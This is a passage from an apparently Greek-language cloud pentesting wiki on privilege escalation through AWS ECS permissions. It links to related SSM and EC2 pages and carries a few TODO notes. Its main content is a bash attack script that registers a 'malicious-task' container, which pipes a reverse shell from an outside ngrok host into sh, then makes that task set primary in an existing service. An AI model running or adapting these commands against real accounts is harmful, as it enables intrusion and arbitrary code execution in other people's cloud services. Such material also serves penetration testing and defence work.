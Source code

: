 ### `ssm:StartSession`

Ελέγξτε στη **σελίδα privesc ssm** πώς μπορείτε να εκμεταλλευτείτε αυτή την άδεια για **privesc σε ECS**:

{% content-ref url="aws-ssm-privesc.md" %}
[aws-ssm-privesc.md](aws-ssm-privesc.md)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

Ελέγξτε στη **σελίδα privesc ec2** πώς μπορείτε να εκμεταλλευτείτε αυτές τις άδειες για **privesc σε ECS**:

{% content-ref url="aws-ec2-privesc.md" %}
[aws-ec2-privesc.md](aws-ec2-privesc.md)
{% endcontent-ref %}

### `?ecs:RegisterContainerInstance`

TODO: Είναι δυνατόν να καταχωρήσετε μια παρουσία από διαφορετικό λογαριασμό AWS ώστε οι εργασίες να εκτελούνται σε μηχανές που ελέγχονται από τον επιτιθέμενο;;

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

{% hint style="info" %}
TODO: Δοκιμάστε αυτό
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, και `ecs:DescribeTaskSets` μπορεί να **δημιουργήσει ένα κακόβουλο σύνολο εργασιών για μια υπάρχουσα υπηρεσία ECS και να ενημερώσει το κύριο σύνολο εργασιών**. Αυτό επιτρέπει στον επιτιθέμενο να **εκτελεί αυθαίρετο κώδικα εντός της υπηρεσίας**.
```bash
bashCopy code# Register a task definition with a reverse shell
echo '{
"family": "malicious-task",
"containerDefinitions": [
{
"name": "malicious-container",
"image": "alpine",
"command": [
"sh",
"-c",
"apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
]
}
]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
aws ecs update-service-primary-task-set --cluster existing-cluster --service existing-service --primary-task-set arn:aws:ecs:region:123456789012:task-set/existing-cluster/existing-service/malicious-task-set-id
```
**Πιθανές Επιπτώσεις**: Εκτέλεση αυθαίρετου κώδικα στην επηρεαζόμενη υπηρεσία, ενδεχομένως επηρεάζοντας τη λειτουργικότητά της ή εξάγοντας ευαίσθητα δεδομένα.
